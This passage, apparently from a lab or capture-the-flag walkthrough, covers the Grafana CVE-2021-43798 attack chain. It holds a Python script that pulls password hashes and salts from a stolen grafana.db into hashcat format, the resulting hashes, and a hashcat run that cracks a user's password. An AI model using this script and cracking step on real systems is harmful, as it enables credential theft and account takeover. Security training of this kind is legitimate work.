 Using the following [PoC](https://vulncheck.com/blog/grafana-cve-2021-43798), we can format the password hash correctly so we can crack it using hashcat (use chatgpt to translate the go script to Python and establish a connection to the sqlite3 file).
```python
import sqlite3
import base64
import hashlib

# Connect to the SQLite database file
conn = sqlite3.connect('grafana.db')

# Create a cursor object to execute SQL queries
cursor = conn.cursor()

# Execute the query to fetch user data
cursor.execute("SELECT email, password, salt, is_admin FROM user")
rows = cursor.fetchall()

# Open a file to write hashed passwords
with open("hashed_passwords.txt", "w") as hash_file:
    # Process each row
    for row in rows:
        email, password, salt, is_admin = row

        # Decode the hex-encoded password hash
        decoded_hash = bytes.fromhex(password)

        # Encode the decoded hash to base64
        hash64 = base64.b64encode(decoded_hash).decode('utf-8')

        # Encode the salt to base64
        salt64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')

        # Write to file
        hash_file.write(f"sha256:10000:{salt64}:{hash64}\\n")

# Close the cursor and connection
cursor.close()
conn.close()
```

Running the script will return a hashed_passwords.txt file.
```
┌──(kali㉿kali)-[~]
└─$ cat hashed_passwords.txt 
sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
```

Now use hashcat to crack the password, we only cracked the password of the boris user: `beautiful1`.
```
┌──(kali㉿kali)-[~]
└─$ hashcat -m 10900 hashed_passwords.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-penryn-AMD Ryzen 7 5700U with Radeon Graphics, 2913/5890 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```